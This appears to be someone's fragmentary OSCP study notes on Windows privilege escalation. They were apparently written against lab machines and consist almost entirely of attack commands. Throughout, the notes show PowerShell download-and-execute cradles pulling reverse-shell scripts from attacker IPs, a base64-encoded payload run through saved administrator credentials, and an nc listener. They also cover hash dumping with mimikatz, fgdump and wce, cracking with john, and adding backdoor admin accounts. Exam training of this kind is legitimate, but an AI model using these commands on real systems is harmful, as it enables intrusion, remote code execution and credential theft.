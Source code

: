 ```yaml
---
title: "OSCP: Windows Privilege Escalation"
parent: OSCP
nav_order: 3
categories:
  - Cyber Security
tags:
  - OSCP
  - Windows
  - Privilege Escalation
---
```


```
icacls scsiaccess.exe
...
Everyone: (I)(F)
```
crosscompile useradd.c
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
wce -w
fgdump.exe
type 127.0.0.1.pwdump
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
Is there python on dev windows machine
Use pyinstaller on dev windows machine
python pyinstaller.py --onefile ms11-080.py
Check for powershell
powershell whoami
whaomi /priv
cmdkey /list
run an exploit suggesters
If web server poke around databasel
Check if I can write in folder
echo PleaseSubsribe > test
1. Nishang
2. unicorn → meterpreter from a standard shell
UPGRADE TO NISHANG 1. Locate the PS > Invoke...reverse shell line in script and put at bottom so it executes in memory after transfer
2. Server python -m SimpleHTTPServer 80
3. powershell “IEX(New-Object NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1')”
net user dan dan /add; net local
UNICORN
Exploit suggesters • Sherlock.ps1
• Powerup.ps1 → service misconfigs
• Exploit suggester ./windows-exploit-suggester.py
python windows-exploit-suggester.py -d 2017-05-27-mssb.xls -i systeminfo.txt
• jaws-enum.ps1
• Empire??
Sherlock.ps1
windows-exploit-suggester.py
Empire
PowerUp.ps1
46/67
locate PowerUp.ps1. Copy then add “Invoke-AllChecks” to end
http://10.10.10.9/ippsec.php?fexec=echo%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.11:8000/
PowerUp.ps1%27)%20|%20powershell%20-noprofile%20-
Run Invokes from memory as the file transferred
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/jaws-enum.ps1')"
1. jaws-enum.ps1 JAWS enumeration
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
BURP (ctr-U to url encode the following)
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object
NetWebClient).downloadString('http://10.10.14.7:8000/InvokePowerShellTcp.ps1').}
powershell -ExecutionPolicy Bypass -File xyz.ps1
group Administrators dan /add
rdesktop 10.10.10.10 -u dan
2. jaws-enum.ps1 powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/jaws-enum.ps1')"
JAWS enumeration
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
PS C:\Users\Public\Desktop> dir
"ZKAccess3.5 Security System.lnk"
GET FILE CONTENTS SO WE KNOW HOW TO RUN AS ADMIN
get-Content "ZKAccess3.5 Security System.lnk" == linux “file”
$WScript = New-Object -ComObject Wscript.Shell
$shortcut = Get-ChildItem *.lnk
$Wscript.CreateShortcut($shortcut)
FullName : C:\Users\Public\Desktop\ZKAccess3.5
Security System.lnk
Arguments : /user:ACCESS\Administrator /savecred
"C:\ZKTeco\ZKAccess3.5\Access.exe"
Description :
Hotkey :
IconLocation : C:\ZKTeco\ZKAccess3.5\img\AccessNET.
ico,0
RelativePath :
TargetPath : C:\Windows\System32\runas.exe
WindowStyle : 1
WorkingDirectory : C:\ZKTeco\ZKAccess3.5
runas /user:ACCESS\Administrator /savecred whoami
This string 'http://10.10.14.3:8000/9002.ps1'
To this encoding prior to base64
--to-code UTF-16LE
Full command in kali
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.11:8000/9002.ps1')" | iconv --to-code UTF-16LE |
47/67
base64 -w 0
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgB
Set up listener on KALI
nc -nlvp 9002
runas /user:ACCESS\Administrator /savecred "Powershell -EncodedCommand
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgB
Use mimikatz
Need write access to download, go to your users desktop
(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/mimikatz.exe', 'mimkatz.exe')
didnt work
tried from telnet sessiondir
powershell "IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.7:8000/mimikatz.exe', 'mimkatz.exe')
not recog as command
github Generic-AppLockerbypasses.md
Empire Chatterbox
Look at original nmap scan for other shite running (nmap localhost)
check permissions on webserver echo PleaseSubscribe > test
FAILS
Directory: C:\inetpub\wwwroot
Mode LastWriteTime Length Name
---- ------------- ------ ----
d---- 8/21/2018 11:30 PM aspnet_cli
ent
-a--- 8/24/2018 12:33 AM 391 index.html
-a--- 8/24/2018 8:39 PM 88712 out.jpg
PASSWORDS cmdkey /list - is a stored pw
Currently stored credentials:
Target: Domain:interactive=ACCESS\Administrator
Type: Domain Password
User: ACCESS\Administrator
→ Use Mimikatz
48/67
KERNEL EXPLOITS If no service packs or Hotfixes then possibly vulnerable to kernel exploits
pgdump.exe, pwdump.exe, fgdump.exe
type 127.0.0.1 pwdump
wce32.exe -w
wce64.exe -w
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords # gets passwords
Hashed passwords
https://crackstation.net
https://hashkiller.co.uk
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
john --rules --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
https://pentestlab.blog/2017/04/24/windows-kernel-exploits/
